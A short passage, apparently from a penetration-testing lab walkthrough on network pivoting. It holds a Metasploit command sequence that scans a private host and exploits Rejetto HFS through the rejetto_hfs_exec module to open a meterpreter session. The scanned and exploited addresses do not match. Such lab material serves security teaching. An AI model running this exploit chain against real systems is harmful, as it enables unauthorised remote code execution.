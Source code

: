 <figure><img src="../../.gitbook/assets/104.png" alt=""><figcaption></figcaption></figure>

```bash
kali@kali> ping 10.3.28.166  # can reach it
kali@kali> ping 10.3.25.211  # no response
kali@kali> service postgresql start && msfconsole

msf6> workspace -a pivoting
msf6> db_nmap -sV 10.3.25.166
msf6> use exploit/windows/http/rejetto_hfs_exec
msf6> set rhosts 10.3.28.166
msf6> run

meterpreter> ipconfig
```
